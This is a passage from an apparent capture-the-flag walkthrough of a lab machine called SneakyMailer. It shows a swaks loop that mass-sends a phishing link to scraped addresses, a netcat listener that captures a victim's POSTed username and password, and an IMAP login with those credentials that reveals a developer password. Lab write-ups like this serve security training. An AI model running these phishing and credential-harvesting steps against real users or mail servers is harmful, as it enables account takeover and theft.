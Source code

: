 When browsing the website we notice a list of email addresses. We copy them to a
file an use `cut -f 4` to get a proper list with the email only.

Nothing else on the website seems of interest.

## Phishing

As the port 25 is open, we can send email to the server.
Our phishing email will contain a simple
link to our machine `http://10.10.14.11:8080/test`:

    :::text
    Hey try that:

    http://10.10.14.11:8000/test

    HF

We use [swaks](https://github.com/jetmore/swaks)
in order to automatically send our phishing email:

    :::text
    while read l; do swaks --to $l --server 10.10.10.197 --body email; done <emails

We run a `netcat` listener on port 8080 in order to see the incoming requests and
got some POST request containing a username and a password.

    :::text
    nc -l -p 8000
    POST /test%0D HTTP/1.1
    Host: 10.10.14.11:8000
    User-Agent: python-requests/2.23.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded

    firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt

## Evolution

It took me quit a long time to understand what these credentials where for. But
as the IMAP port is open we can connect to it with a mail client. We launch
evolution (already installed on Kali Linux) and configure it with the previous
information (note that the user is `paulbyrd`).

We found two emails in the `sent` directory. The first on contain a password for
the `developer` account.

> Hello administrator, I want to change this password for the developer account
>
> Username: developer
> Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
>
> Please notify me when you do it
